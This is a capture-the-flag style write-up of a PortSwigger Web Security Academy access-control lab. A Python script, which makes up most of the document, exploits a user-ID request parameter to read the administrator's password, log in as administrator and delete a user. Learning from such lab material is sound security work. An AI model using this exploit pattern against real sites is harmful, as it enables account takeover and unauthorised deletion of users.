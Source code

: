 ```yaml
---
title: User ID controlled by request parameter with password disclosure
tags:
  - web-app
  - access
  - control
  - vulnerability
---
```


<a href="https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure/">
5. User ID controlled by request parameter with password disclosure</a>

Like in <a href="4.html">the previous lab</a>, once logged in we can access
other users' account information by changing the id value when accessing the
/my-account page. We're asked to delete the user "carlos" from the site.

We login with our known user credentials. Using the known vulnerability, we
access the administator's account information to acquire their password. We
login as the administrator to access the /admin panel. Finally, we delete
"carlos" from the site as the administrator.

Solution:

```python
# usage:
# python3 5.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net \
# --w carlos

import re
from argparse import ArgumentParser

import requests


def solve(url: str, who: str) -> None:
    s = requests.Session()
    url = url.rstrip("/")
    login_url = f"{url}/login"
    admin_url = f"{url}/admin"
    account_url = f"{url}/my-account?id=administrator"

    r = s.get(login_url)
    csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
    r = s.post(
        login_url,
        data={
            "csrf": csrf,
            "username": "wiener",
            "password": "peter",
        },
    )

    r = s.get(account_url)
    password = re.findall(r"password value=\'([\w]+)\'", r.text)[0]

    s = requests.Session()

    r = s.get(login_url)
    csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
    r = s.post(
        login_url,
        data={
            "csrf": csrf,
            "username": "administrator",
            "password": password,
        },
    )

    r = s.get(admin_url + f"/delete?username={who}")


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--w", "--who", dest="who")
    args = parser.parse_args()
    solve(args.url, args.who)


if __name__ == "__main__":
    main()
```
